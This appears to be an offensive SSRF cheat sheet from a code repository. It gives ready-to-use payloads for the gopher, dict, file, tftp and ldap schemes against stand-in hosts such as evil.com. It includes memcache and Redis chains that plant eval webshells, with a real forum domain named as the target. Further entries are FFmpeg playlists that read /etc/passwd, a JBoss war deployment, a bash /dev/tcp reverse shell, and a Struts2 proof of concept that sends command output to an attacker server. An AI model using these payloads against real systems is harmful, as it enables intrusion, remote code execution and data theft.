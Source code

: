 # SSRF---Server-side-request-forgery
Cheat sheet

###########################################
SSRF PHP function

file_get_contents()
fsockopen()
curl_exec()

###########################################
URL schema support

SFTP:

http://example.com/ssrf.php?url=sftp://evil.com:11111/

evil.com:$ nc -v -l 11111
Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
SSH-2.0-libssh2_1.4.2

Dict:

http://example.com/ssrf.php?dict://attacker:11111/

evil.com:$ nc -v -l 11111
Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
CLIENT libcurl 7.40.0

gopher:

// http://example.com/ssrf.php?url=http://evil.com/gopher.php
<?php
        header('Location: gopher://evil.com:12346/_HI%0AMultiline%0Atest');
?>

evil.com:# nc -v -l 12346
Listening on [0.0.0.0] (family 0, port 12346)
Connection from [192.168.0.10] port 12346 [tcp/*] accepted (family 2, sport 49398)
HI
Multiline
test

TFTP:

http://example.com/ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET

evil.com:# nc -v -u -l 12346
Listening on [0.0.0.0] (family 0, port 12346)
TESTUDPPACKEToctettsize0blksize512timeout6

file:

http://example.com/redirect.php?url=file:///etc/passwd

ldap:

http://example.com/redirect.php?url=ldap://localhost:11211/%0astats%0aquit

###########################################
PHP-FPM
PHP-FPM universal SSRF bypass safe_mode/disabled_functions/o exploit

###########################################
SSRF memcache Getshell

Generate serialize:

<?php
    $code=array('global_start'=>'@eval($_REQUEST[\'eval\']);');
    echo serialize($code)."\n".strlen(serialize($code));
    
Output:

a:1:{s:12:"global_start";s:25:"@eval($_REQUEST['eval']);";} //datos serializados
59  // longitud del string

webshell.php:

<?php
//Gopher puede ser reemplazado por otros métodos como arriba
    header('Location: gopher://[target ip]:11211/_%0d%0aset ssrftest 1 0 147%0d%0aa:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";s:5:"/.*/e";s:7:"replace";s:33:"eval(base64_decode($_POST[ccc]));";}}s:13:"rewritestatus";i:1;}%0d%0a');
?>

back.php:

<?php
    header('Location: gopher://192.168.10.12:11211/_%0d%0adelete ssrftest%0d%0a');
?>

example:

open the website

http://bbs.biligame.com/forum.php?mod=ajax&action=downremoteimg&message=[img]http://myvps/webshell.php?logo.jpg[/img]
http://bbs.biligame.com/forum.php?mod=ajax&inajax=yes&action=getthreadtypes

clear data

http://bbs.biligame.com/forum.php?mod=ajax&action=downremoteimg&message=[img]http://myserver/back.php?logo.jpg[/img]

backdoor url

http://bbs.biligame.com/data/cache/hello.php

###########################################
SSRF Redis Getshell

Generate serialize:

<?php
    $a['output']['preg']['search']['plugins'] = '/.*/e';
    $a['output']['preg']['replace']['plugins'] = '@eval($_POST['c']);';
    $a['rewritestatus']=1;
    $setting = serialize($a);
    echo $setting."\n".strlen($setting);
?>

Output:

a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:19:"@eval($_POST["c"]);";}}}s:13:"rewritestatus";i:1;}     //序列化数据
173     //字符串长度

example:

Open website

http://192.168.80.116/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://you-vps-ip/ssrf.php?.jpg[/img]&formhash=818c8f44

Backdoor website

http://192.168.80.116/forum.php?mod=ajax&inajax=yes&action=getthreadtypes

###########################################
FFmpeg

cat test.jpg

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://example.org/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST

subfile:

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://localhost/header.m3u8|subfile,,start,0,end,64,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,64,end,128,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,128,end,256,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,256,end,512,,:///etc/passwd
#EXT-X-ENDLIST

###########################################
PostgreSQL

Exploit:

> SELECT dblink_send_query('host=127.0.0.1 dbname=quit user=\'\nstats\n\​' password=1 port=11211 sslmode=disable','select
version();');

###########################################
MongoDB

Exploit:

> db.copyDatabase("\1\2\3\4\5\6\7",'test','localhost:8000')
> nc -l 8000 | hexdump -C
> db.copyDatabase(“\nstats\nquit”,’test’,’localhost:11211’)

###########################################
CouchDB

exploit:

http://localhost:5984/_users/_all_docs
HTTP/1.1 200 OK
Server: CouchDB/1.2.0 (Erlang OTP/R15B01)
ETag: "BD1WV12007V05JTG4X6YHIHCA"
Date: Tue, 18 Dec 2012 21:39:59 GMT
Content-Type: text/plain; charset=utf-8
Cache-Control: must-revalidate

{"total_rows":1,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-a8cfb993654bcc635f126724d39eb930"}}
]}

Attacker could also send requests from CouchDB server to intranet by using replication function

POST http://couchdb:5984/_replicate
Content-Type: application/json
Accept: application/json

{
    "source" : "recipes",
    "target" : "http://ssrf-me:11211/recipes",
}

###########################################
Jboss

Jbosss POC:

/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://our_public_internet_server/utils/cmd.war

Shell:

http://target.com/ueditor/jsp/getRemoteImage.jsp
POST:
    upfile=http://10.0.0.1:8080/jmx-console/HtmlAdaptor?action=invokeOp%26name=jboss.system%3Aservice%3DMainDeployer%26methodIndex=3%26arg0=http%3A%2F%2F远端地址%2Fhtml5.war%23.jpg
http://target.com/ueditor/jsp/getRemoteImage.jsp
POST:
    upfile=http://内网IP:8080/html5/023.jsp%23.jpg

Reverse shell:

bash -i >& /dev/tcp/123.45.67.89/9999 0>&1

###########################################
Weblogic

gopher.php:

<?php
	header("Location:gopher://vps-ip:2333/_test");
?>

vuln website:

https://example.com/uddiexplorer/SearchPublicRegistries.jsp
POST:
    operator=http://vps-ip/gopher.php&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search

vps:

> nc -lvv 2333

Connection from xx.xx.xx.xx port 2333 [tcp/snapp] accepted

###########################################
Local File Read

http://www.xxx.com/redirect.php?url=file:///etc/passwd
http://www.xxx.com/redirect.php?url=file:///C:/Windows/win.ini

###########################################
Bool SSRF

Struts2-016 POC:

?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

//Modificar el SERVIDOR para que el vps devuelva los resultados en la vista access.log

###########################################
SSRF Proxy

SSRF_Proxy:
https://github.com/bcoles/ssrf_proxy

ssrfsocks:
https://github.com/iamultra/ssrfsocks
